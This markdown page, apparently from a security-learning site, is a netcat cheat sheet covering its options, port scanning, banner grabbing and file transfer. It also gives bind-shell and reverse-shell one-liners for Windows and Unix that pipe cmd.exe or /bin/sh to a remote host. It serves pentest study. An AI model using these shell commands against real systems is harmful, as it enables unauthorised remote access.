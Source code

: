 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


##Usage##
Connect to somewhere:	nc [-options] hostname port[s] [ports] ... 
Listen for inbound:	        nc -l -p port [-options] [hostname] [port]


**Options:**
	**-c:** *shell command* as `-e'; use /bin/sh to exec [dangerous!!]
	**-e:** *filename*		program to exec after connect [dangerous!!]
	**-b:**			allow broadcasts
	**-g:** *gateway*		source-routing hop point[s], up to 8
	**-G:** *num*			source-routing pointer: 4, 8, 12, ...
	**-h:**			this cruft
	**-i:** *secs*			delay interval for lines sent, ports scanned
        **-k:**                      set keepalive option on socket
	**-l:**			listen mode, for inbound connects
	**-n:**			numeric-only IP addresses, no DNS
	**-o:** *file*			hex dump of traffic
	**-p:** *port*			local port number
	**-r:**			randomize local and remote ports
	**-q:** *secs*			quit after EOF on stdin and delay of secs
	**-s:** *addr*			local source address
	**-T:** *tos*			set Type Of Service
	**-t:**			answer TELNET negotiation
	**-u:**			UDP mode
	**-v:**			verbose [use twice to be more verbose]
	**-w:** *secs*			timeout for connects and final net reads
	**-C:**		Send CRLF as line-ending
	**-z:**			zero-I/O mode [used for scanning]

Port numbers can be individual or ranges: lo-hi [inclusive];
Hyphens in port names must be backslash escaped (e.g. 'ftp\-data').

##Basic##

**TCP Port - Connecting**
`nc -nv <IP> <PORT>`

**TCP Port - Listening**
`nc -lvp <PORT>`

**Connect and return HTTP Page**
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

**File Transfer**
`nc -lvp 4444 > output.txt # Receiving End`
`nc -nv <IP> < input.txt # Sending End`

**Port Scanning**
`nc -z <IP> <PORT RANGE>`

**Banner Grabbing**
`echo "" | nc -nv -w1 <IP Address> <Ports>`

##Windows ##
**Bind Shell**
`nc -lvp 4444 -e cmd.exe`
`nc -nv <IP> 4444 # Connect to the shell`

**Reverse Shell**
`nc -lvp 443 # Attacking Machine - Waiting for shell`
`nc -nv <IP> 443 -e cmd.exe # Target Machine - sending shell`



##Nix##

**Bind Shell**
`nc -lvp 4444 -e /bin/sh`
`nc -nv <IP> 4444 # Connect to the shell`

**Reverse Shell**
`nc -lvp 443`
`nc -nv <IP> 443 -e /bin/sh`

##Additional Resources##
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)
[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
